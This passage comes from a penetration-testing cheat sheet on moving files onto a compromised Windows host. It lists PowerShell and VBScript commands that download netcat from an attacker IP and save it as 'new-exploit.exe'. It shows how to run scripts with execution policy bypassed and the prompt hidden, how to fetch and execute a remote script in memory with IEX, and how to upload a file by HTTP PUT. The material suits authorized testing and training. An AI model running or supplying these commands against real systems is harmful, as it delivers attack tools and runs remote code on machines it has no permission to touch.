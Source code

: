 Make sure to hit enter a couple of times to ensure all the commands were entered, then use this to run the script:

```powershell
cscript wget.vbs http://192.168.119.216/wget.exe wget.exe
```

### PowerShell

#### Building a PS Script

Paste these into the shell to build the script:

```powershell
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.119.216/nc.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Remember to hit enter to ensure all commands were entered.

Then run it with this command:

```powershell
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1

# Options
-ExecutionPolicy Bypass # Allows PS scripts to be run
-NoLogo # Hide powershell logo banner
-NonInteractive # Hide powershell prompt
-NoProfile # Don't load default profile
-File wget.ps1 # Specify script
```

#### PS One-Liner Download

This one liner will accomplish the same as the script above:

```powershell
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.216/nc.exe', 'new-exploit.exe')
```

An alternate one-liner for newer versions of PowerShell (3.0 & above)

```powershell
powershell.exe Invoke-WebRequest -uri 'http://192.168.119.216/upload.php' -Method Put -Infile 'nc.exe'
```

#### Run Remote Script

To download and run a script without storing it locally on the target, first create the script and host it somewhere accessible to the target, then run this:

```bash
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.119.216/helloworld.ps1')
```
